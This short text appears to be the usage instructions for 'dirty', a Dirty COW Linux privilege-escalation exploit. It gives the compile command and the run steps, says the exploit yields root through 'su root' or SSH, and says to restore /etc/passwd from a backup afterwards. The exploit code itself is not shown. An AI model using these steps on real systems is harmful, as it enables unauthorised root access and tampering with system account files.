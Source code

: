# Dirty


Compile with:
 gcc -pthread dirty.c -o dirty -lcrypt

Then run the newly create binary by either doing:
  "./dirty" or "./dirty my-new-password"

Afterwards, you can either "su root" or "ssh root@..."

DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
  mv /tmp/passwd.bak /etc/passwd
